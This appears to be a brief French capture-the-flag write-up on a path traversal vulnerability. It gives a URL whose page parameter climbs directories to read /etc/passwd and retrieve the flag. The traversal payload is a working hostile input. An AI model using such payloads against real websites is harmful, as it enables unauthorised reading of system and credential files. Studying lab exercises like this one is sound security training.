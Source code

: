 La vulnérabilité de 'Tranversal Path' permet de lire des fichiers du système en rentrant le chemin relatif à partir du dossier du site.
L'url suivante permet d'obtenir le flag :

> [URL]/index.php?page=../../../../../../../etc/passwd